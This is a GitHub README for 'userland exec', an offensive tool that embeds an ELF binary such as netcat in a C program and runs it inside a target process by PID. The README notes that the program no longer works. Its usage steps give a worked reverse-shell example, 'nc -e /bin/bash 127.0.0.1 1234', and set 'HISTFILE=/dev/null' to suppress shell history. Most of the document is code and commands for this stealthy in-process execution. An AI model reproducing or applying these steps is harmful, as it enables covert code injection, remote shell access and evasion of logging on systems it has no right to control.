 # This program doesn't work anymore.

# userland exec
userland exec

## Usage
1. download the latest [userland-exec](https://github.com/shuichiro-endo/userland-exec)
```
git clone https://github.com/shuichiro-endo/userland-exec.git
cd userland-exec
```
2. output an elf file you want to run to elffile.h file (e.g. /usr/bin/nc)
```
xxd -i /usr/bin/nc > elffile.h
```
3. get a variable name from elffile.h file (e.g. unsigned char _usr_bin_nc[])
```
head -1 elffile.h
```
4. modify ulexec.c file (exec_file, env_string, env_count, argv_string and argv_count)
```
// head -1 elffile.h
// e.g. unsigned char _usr_bin_nc[] = {
unsigned char *exec_file = _usr_bin_nc;

char *env_string[] = {
"PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin:", 
"SHELL=/bin/bash", 
"HISTFILE=/dev/null", 
"\0", 
"\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0"};	// do not delete

int env_count = 3;

// e.g. nc -e /bin/bash 127.0.0.1 1234
char *argv_string[] = {
"-e", 
"/bin/bash", 
"127.0.0.1", 
"1234", 
"\0", 
"\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0"};	// do not delete

int argv_count = 5;	// e.g. exec file name (1) + argv_string (4) = 5
```
5. build
```
gcc ulexec.c -o ulexec
```
6. run ulexec
```
userland exec
usage         : ./ulexec -p target_pid
example       : ./ulexec -p 12345
```

## License
This project is licensed under the MIT License.

See the [LICENSE](https://github.com/shuichiro-endo/userland-exec/blob/main/LICENSE) file for details.


